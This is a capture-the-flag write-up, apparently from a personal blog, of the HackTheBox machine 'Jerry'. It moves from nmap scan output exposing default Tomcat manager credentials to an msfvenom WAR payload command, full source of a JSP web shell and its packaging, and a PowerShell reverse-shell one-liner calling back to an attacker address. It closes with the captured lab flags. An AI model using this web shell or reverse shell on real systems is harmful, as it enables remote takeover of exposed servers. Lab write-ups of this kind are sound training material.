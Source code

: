 ```yaml
---
layout: post
title: "Jerry Writeup - HackTheBox"
category: HackTheBox
---
```


# HTB lab Machine - Jerry

I started of reverting the machine, and then ran my self made script https://github.com/yassirlaaouissi/EZEA. The exact results can be found in the results/10.129.28.246 folder that I have attached to this post.

## Enumeration summary

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

```

```
[-] [10.129.28.246 tcp/8080/nmap-http] | http-default-accounts:
[-] [10.129.28.246 tcp/8080/nmap-http] |   [Apache Tomcat] at /manager/html/
[-] [10.129.28.246 tcp/8080/nmap-http] |     tomcat:s3cret
[-] [10.129.28.246 tcp/8080/nmap-http] |   [Apache Tomcat Host Manager] at /host-manager/html/
[-] [10.129.28.246 tcp/8080/nmap-http] |_    (no valid default credentials found)

```

```
-] [10.129.28.246 tcp/8080/nmap-http] |   Directory structure:
[-] [10.129.28.246 tcp/8080/nmap-http] |     /
[-] [10.129.28.246 tcp/8080/nmap-http] |       Other: 1; ico: 1; png: 1
[-] [10.129.28.246 tcp/8080/nmap-http] |     /docs/
[-] [10.129.28.246 tcp/8080/nmap-http] |       Other: 1; html: 8; txt: 1
[-] [10.129.28.246 tcp/8080/nmap-http] |     /docs/api/
[-] [10.129.28.246 tcp/8080/nmap-http] |       html: 1
[-] [10.129.28.246 tcp/8080/nmap-http] |     /docs/appdev/
[-] [10.129.28.246 tcp/8080/nmap-http] |       Other: 1
[-] [10.129.28.246 tcp/8080/nmap-http] |     /docs/config/
[-] [10.129.28.246 tcp/8080/nmap-http] |       Other: 1
[-] [10.129.28.246 tcp/8080/nmap-http] |     /examples/
[-] [10.129.28.246 tcp/8080/nmap-http] |       Other: 1
[-] [10.129.28.246 tcp/8080/nmap-http] |   Longest directory structure:
[-] [10.129.28.246 tcp/8080/nmap-http] |     Depth: 2
[-] [10.129.28.246 tcp/8080/nmap-http] |     Dir: /docs/appdev/
[-] [10.129.28.246 tcp/8080/nmap-http] |   Total files found (by extension):
[-] [10.129.28.246 tcp/8080/nmap-http] |_    Other: 5; html: 9; ico: 1; png: 1; txt: 1

```

## Exploitation

Please login here: http://10.129.28.246:8080/manager/html/ creds are tomcat:s3cret as the scanning results said. Generate a payload:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f war > shell.war
```

Sadly that did not work. So I went on and made a JSP shell with the following steps:

1. make a file called index.jsp with the following contents:

   ```
   <FORM METHOD=GET ACTION='index.jsp'>
   <INPUT name='cmd' type=text>
   <INPUT type=submit value='Run'>
   </FORM>
   <%@ page import="java.io.*" %>
   <%
      String cmd = request.getParameter("cmd");
      String output = "";
      if(cmd != null) {
         String s = null;
         try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
   InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
         }  catch(IOException e) {   e.printStackTrace();   }
      }
   %>
   <pre><%=output %></pre>
   ```

2. Do this:

   ```
   mkdir webshell
   cp index.jsp webshell/
   cd webshell
   jar -cvf ../webshell.war *
   ```

3. Upload the war file to /manager/html, and go to http://10.129.28.246:8080/webshell/index.jsp?cmd=whoami

![image-20210530161813814.png](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210530161813814.png)

Wow lol, lets get an actual reverse shell:

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.31',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

```
┌──(kali㉿kali)-[~/Desktop/DownloadedScripts/webshell]
└─$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.31] from 10.129.28.246 [10.129.28.246] 49192
id
whoamiPS C:\apache-tomcat-7.0.88>
nt authority\system
PS C:\apache-tomcat-7.0.88>

```

```
PS C:\Users\Administrator\Desktop\flags> type 2\ for\ the\ price\ of\ 1.txt
PS C:\Users\Administrator\Desktop\flags> type *
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
PS C:\Users\Administrator\Desktop\flags> whoami
nt authority\system
PS C:\Users\Administrator\Desktop\flags>

```

## Final thoughts

This was done in 10 minutes. Learned a new method to exploit apache tomcat /manager/html
